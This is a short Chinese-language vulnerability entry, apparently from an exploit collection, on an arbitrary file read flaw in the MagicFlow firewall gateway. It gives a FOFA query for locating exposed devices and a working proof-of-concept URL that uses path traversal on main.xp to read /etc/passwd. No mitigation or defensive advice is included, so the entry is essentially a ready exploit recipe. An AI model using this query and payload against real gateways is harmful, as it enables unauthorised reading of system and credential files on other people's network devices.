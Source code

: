 # MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

```
MagicFlow 防火墙网关
```

## FOFA

```
app="MSA/1.0"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162301720.png)

构造POC

```plain
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162301323.png)